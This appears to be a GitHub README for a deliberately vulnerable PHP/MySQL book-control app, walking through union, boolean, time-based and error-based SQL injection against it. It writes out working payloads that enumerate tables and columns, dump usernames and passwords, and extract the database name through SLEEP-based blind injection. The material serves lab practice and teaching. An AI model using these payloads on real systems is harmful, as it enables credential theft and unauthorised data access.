 # vulnerable-to-sqli
I developed a book control web application with php language. This application I developed using mysql is vulnerable to sql injection types. There are also blocked php codes against sql vulnerability. 

![image](https://github.com/MeryemDalgali/vulnerable-to-sqli/assets/123389001/558074a1-862b-417d-9541-79461eab338c)

I have attached the detection and exploitation of vulnerabilities as screen photos.

# UNION-BASED SQLI
![image](https://github.com/MeryemDalgali/vulnerable-to-sqli/assets/123389001/73240dc8-8851-4ae3-93a2-802473689421)
exploitation:
![image](https://github.com/MeryemDalgali/vulnerable-to-sqli/assets/123389001/38461f5c-5ca3-4e70-8c5b-eb15991c32a5)

payload to get table names:
1' UNION SELECT 1,table_name,3,4,5,6 FROM information_schema.tables WHERE table_schema=database()-- -
![image](https://github.com/MeryemDalgali/vulnerable-to-sqli/assets/123389001/39745bb9-7d80-48cf-a712-80ac2dbb5e45)

payload to get column names from Users table:
1' UNION SELECT 1,column_name,3,4,5,6 FROM information_schema.columns WHERE table_name='Users'-- -

get credentials:
1' UNION SELECT 1,UserName,3,4,Password,6 FROM Users-- -
![image](https://github.com/MeryemDalgali/vulnerable-to-sqli/assets/123389001/112d7862-0cc4-4a0a-ac13-2af79b0f97fb)

# BOOLEAN-BASED SQLI 
![image](https://github.com/MeryemDalgali/vulnerable-to-sqli/assets/123389001/54aafe13-0a3b-4fe2-9b06-911adc99e9f8)

# TIME-BASED SQLI 
manipulate search query
![image](https://github.com/MeryemDalgali/vulnerable-to-sqli/assets/123389001/08a5cb0e-f216-43ad-8ff8-1ca389ad56ef)
vulnerability detection with :
/search.php?search_query=Ethical Hacking Handbook' AND sleep(5) -- -
![image](https://github.com/MeryemDalgali/vulnerable-to-sqli/assets/123389001/1b117164-ff3a-4df5-96de-5c8402df0b84)
I got 5 second delay as shown in the tool

According to 5 seconds of sleep, I got the first letter of the database with this payload: 
search.php?search_query=Ethical Hacking Handbook' AND IF(SUBSTRING(database(),1,1)='B',SLEEP(5),0) -- -
Other letters can also be obtained with the intruder tool of the burp tool.For example, to find the second letter of the database:
search.php?search_query=Ethical Hacking Handbook' AND IF(SUBSTRING(database(),2,1)='$set_ıntruder',SLEEP(5),0) -- -

# ERROR-BASED SQLI
' AND 1=CAST((SELECT 1) AS int)-- -
' AND 1=CAST((SELECT username FROM users) AS int)-- -
we got an error 
![image](https://github.com/MeryemDalgali/vulnerable-to-sqli/assets/123389001/118e0659-41cb-4751-af18-492149d81ff1)
and gain the database name. 


